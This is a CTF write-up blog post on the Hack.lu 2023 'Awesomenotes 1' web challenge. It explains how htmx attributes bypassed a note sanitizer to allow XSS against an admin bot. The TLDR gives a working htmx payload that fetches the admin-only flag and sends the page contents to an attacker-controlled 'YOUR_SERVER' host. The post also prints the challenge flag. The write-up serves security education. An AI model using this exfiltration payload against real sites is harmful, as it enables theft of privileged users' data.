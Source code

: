 ```yaml
---
layout: post
title: "Hack.lu CTF Awesomenotes 1 web challenge writeup"
date: 2023-10-15 21:30:00 +0100
categories: ctf web security writeup htmx
permalink: /posts/ctf-hack-lu-web-awesomenotes
---
```


## Awesomenotes 1

CTF name: **[Hack.lu CTF 2023](https://flu.xxx/info)**

Challenge name: **Awesomenotes 1**

Challenge description:

```text
We're excited to announce our new, revolutionary product: A note-taking app. This phenomenal product uses the most up-to-date, bleeding-edge tech in order to stay ahead of all potential security issues. No-one can pwn us.
```

Challenge category: **web**

Challenge points: **88**

When: **Fri, Oct. 13, 18:00 — Sun, Oct. 15, 18:00 UTC**

### TLDR - solution

```html
<div 
    hx-get="/api/note/flag?t=" 
    hx-trigger="load delay:0.001s"
    hx-target="#report"
>
    get flag
</div>
<div 
    hx-get="YOUR_SERVER" 
    hx-on::config-request="event.detail.parameters['flag'] = document.getElementById('report').innerHTML"
    hx-trigger="load delay:0.8s"
    hx-target="#report"
>
    send flag
</div>
```

### Description

![description](/assets/images/2023-10-15/image-4.png)

Challenge was marked as **beginner friendly**. You're greet with a simple web page where you can create and report a `note`.

![landing page](/assets/images/2023-10-15/image-8.png)

After checking the `get_note` function we knew the flag location (in a `flag` note) and that only admin had an access to it.

![get note code](/assets/images/2023-10-15/image-1.png)

Another function `take_report` is called by a bot after reporting a note. The last function `upload_note` has some logic to sanitize a user input. After a quick look you find that `hx-` tags are allowed.

![upload note code](/assets/images/2023-10-15/image-2.png)

Another hint is in the `note.html` file.

![note html code](/assets/images/2023-10-15/image-3.png)

It should be clear by now that we need to prepare a note and use **XSS** to send us a flag after we report it to admin and that [htmx](https://htmx.org/docs/) is used/allowed on the FE. There's even an example 😉

We used [webhook.site](https://webhook.site) as a temporary log server.

The idea was to use `htmx` to make two calls:

- first to get the `flag` note from `/api/notes/flag`
- second to send the `flag` to our server

`noteId` is always added to `hx-get="/api/note/` on every `post` call, so adding `?t=` at the very end means we can ignore it. `hx-trigger` sets the runtime delay. `hx-target` is our target html element, so we used the `report` bottom link button with `id="report"`.

![note view](/assets/images/2023-10-15/image-5.png)

We've got the first call ready (it fails with `401` while testing. It's a good sign because we don't have an access to the flag).

The second part is all about `hx-on::config-request`. In the [docs](https://htmx.org/events/#htmx:configRequest) we've found you can set event parameters via `event.detail.parameters['your_parameter']`. We should already have the `flag` in `#report` link, so all we need is to get the value via `document.getElementById('report').innerHTML`. Last thing is to set the trigger to give some time for the first call to update the link.

Send prepared note, wait for a request

![request details](/assets/images/2023-10-15/image-7.png)

and you get the `flag`

```text
flag{C3r34l_1s_s0up_l1k3_1f_4gr33}
```

{% include posts_footer.html %}
